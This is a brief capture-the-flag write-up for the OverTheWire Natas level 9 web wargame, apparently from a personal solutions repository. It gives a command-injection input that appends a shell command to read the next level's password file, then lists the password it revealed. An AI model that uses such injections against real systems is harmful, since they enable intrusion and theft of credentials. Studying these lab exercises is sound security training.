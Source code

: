 # Natas Level 8 → Level 9
## Problem Description
Username: natas9 <br>
URL: http://natas9.natas.labs.overthewire.org
## Approach
Using [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) I was able to obtain the passord.

```
; cat ../../../../etc/natas_webpass/natas10
```

## Password
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
